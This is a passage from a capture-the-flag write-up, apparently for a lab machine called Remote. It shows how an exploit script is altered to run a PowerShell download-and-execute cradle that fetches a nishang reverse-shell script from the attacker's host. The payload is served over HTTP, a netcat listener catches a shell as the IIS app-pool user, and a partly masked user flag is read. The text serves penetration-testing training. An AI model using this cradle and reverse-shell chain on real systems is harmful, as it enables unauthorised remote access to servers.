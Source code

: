 In order to get the payload working, we have to change the executed program from `calc.exe` to a reverse-shell. To be more precise, we have to change the `string cmd = "";` and `proc.StartInfo.FileName = "calc.exe";`.

The easiest payload is to use PowerShell to download and execute our payload. For this we have to change `string cmd` to: 

```powershell
string cmd = "IEX(New-Object Net.Webclient).DownloadString(\'http://10.10.14.10/rev.ps1\')";
```

And `proc.StartInfo.FileName` to:

```powershell
proc.StartInfo.FileName = "powershell.exe";
```

As the reverse shell I will use the [nishang Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) and change the last line of the script to:

```bash
root@darkness:~# cat rev.ps1 | tail -n 1
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.10 -Port 443
```

#### Getting the initial shell

Now that we have prepared the exploit, we can execute it and use python httpserver to host the payload.

```bash
root@darkness# python3 exploit.py
root@darkness# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.180 - - [26/Aug/2020 16:36:59] "GET /rev.ps1 HTTP/1.1" 200 -
```

```bash
root@darkness:~# rlwrap nc -lvnp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.180.
Ncat: Connection from 10.10.10.180:49699.
Windows PowerShell running as user REMOTE$ on REMOTE
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv> whoami
iis apppool\defaultapppool
```

We get a response on our listener and now have a shell on the server.

The user.txt flag is readable by the user in the `C:\Users\Public\` folder.

```powershell
PS C:\Users\Public> type user.txt
37b20b***************************
```
